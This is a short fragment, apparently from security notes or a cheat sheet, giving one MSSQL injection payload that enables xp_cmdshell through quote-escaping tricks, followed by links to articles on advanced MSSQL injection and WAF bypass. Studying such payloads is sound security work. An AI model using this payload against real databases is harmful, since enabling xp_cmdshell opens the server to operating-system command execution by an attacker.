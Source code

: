 ````
exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
```
```
## References

- [[https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/|https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/]]
- [[https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/|https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/]]



